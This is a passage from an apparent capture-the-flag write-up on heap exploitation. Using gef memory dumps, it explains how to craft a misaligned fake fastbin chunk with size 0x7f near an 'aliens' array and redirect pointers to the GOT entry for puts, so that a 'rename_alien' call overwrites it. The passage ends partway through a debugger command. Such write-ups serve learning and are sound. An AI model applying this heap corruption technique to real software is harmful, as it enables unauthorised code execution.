 Now let's take a close look at where I decided to make this fake chunk:

```
gef➤  x/20g 0x5560129ef088
0x5560129ef088: 0x0 0x7fbdc9a1a8e0
0x5560129ef098: 0x0 0x0
0x5560129ef0a8: 0x0 0xb
0x5560129ef0b8: 0x0 0x0
0x5560129ef0c8: 0x0 0x0
0x5560129ef0d8: 0x0 0x0
0x5560129ef0e8: 0x0 0x0
0x5560129ef0f8: 0x5560138db430  0x5560138db4d0
0x5560129ef108: 0x5560138db480  0x0
0x5560129ef118: 0x0 0x0
gef➤  x/20g 0x5560129ef08d
0x5560129ef08d: 0xbdc9a1a8e0000000  0x7f
0x5560129ef09d: 0x0 0x0
0x5560129ef0ad: 0xb000000 0x0
0x5560129ef0bd: 0x0 0x0
0x5560129ef0cd: 0x0 0x0
0x5560129ef0dd: 0x0 0x0
0x5560129ef0ed: 0x0 0x60138db430000000
0x5560129ef0fd: 0x60138db4d0000055  0x60138db480000055
0x5560129ef10d: 0x55  0x0
0x5560129ef11d: 0x0 0x0
```

We can see that our fake chunk will be near the start of aliens, and then with our alignment the size will be `0x7f` so it will pass that malloc check. We see that our fake chunk is near the start of `aliens`. We will write two pointers to our fake chunk (let's go with ptrs `x` and `y`). Ptr `x` will just point to ptr `y`, and ptr `y` will point to the got address for `puts`. That way we can just pass an index to `rename_alien` that will make it rename ptr `x` as if it were an alien, and that will give us a got table overwrite. Also I choose `puts` since it is the next function called after the got write.

Here we can see the memory corruption play out. I needed to restart the exploit, and because of aslr, the addresses changed:

```
gef➤  x/20g 0x563912451088
0x563912451088: 0x0 0x7fc5ac1ba8e0
0x563912451098: 0x0 0x0
0x5639124510a8: 0x0 0xc
0x5639124510b8: 0x0 0x0
0x5639124510c8: 0x0 0x0
0x5639124510d8: 0x0 0x0
0x5639124510e8: 0x0 0x0
0x5639124510f8: 0x563913eee430  0x563913eee4d0
0x563912451108: 0x563913eee480  0x0
0x563912451118: 0x563913eee520  0x0
```

Then we allocate our fake fast bin chunk and write the pointers:

```
gef➤  x/20g 0x563912451088
0x563912451088: 0x0 0x7fc5ac1ba8e0
0x563912451098: 0x3935310000000000  0x5639124510a8
0x5639124510a8: 0x563912451020  0xd
0x5639124510b8: 0x0 0x0
0x5639124510c8: 0x0 0x0
0x5639124510d8: 0x0 0x0
0x5639124510e8: 0x0 0x0
0x5639124510f8: 0x563913eee430  0x563913eee4d0
0x563912451108: 0x563913eee480  0x0
0x563912451118: 0x563913eee520  0x563913eee6e0
gef➤  x/g 0x563912451020
```